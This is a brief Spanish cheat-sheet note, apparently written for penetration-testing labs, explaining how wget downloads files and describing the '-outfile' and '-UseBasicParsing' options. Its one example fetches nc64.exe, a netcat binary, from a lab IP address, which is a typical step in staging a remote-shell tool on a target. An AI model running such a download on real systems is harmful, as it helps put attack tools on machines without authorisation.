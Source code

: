 Es una herramienta de línea de comandos que permite **descargar archivos desde la web** usando HTTP, HTTPS o FTP.

```
wget http://IpOPagina/NombreDelArchivo
Ejemplo: wget http://10.10.16.16/nc64.exe
```

*Parametros opcionales*
``-outfile`` Esto es por si queremos cambiarle el nombre al archivo cuando se descargue, por ejemplo podemos usar `-outfile bunzo` para que el archivo que decargamos se llame bunzo

*Parametros opcionales windows*
`-UseBasicParsing`Le dice a PowerShell que **no use el motor de Internet Explorer** para interpretar la respuesta (lo cual no está disponible en muchos entornos) y que simplemente descargue el archivo de forma cruda.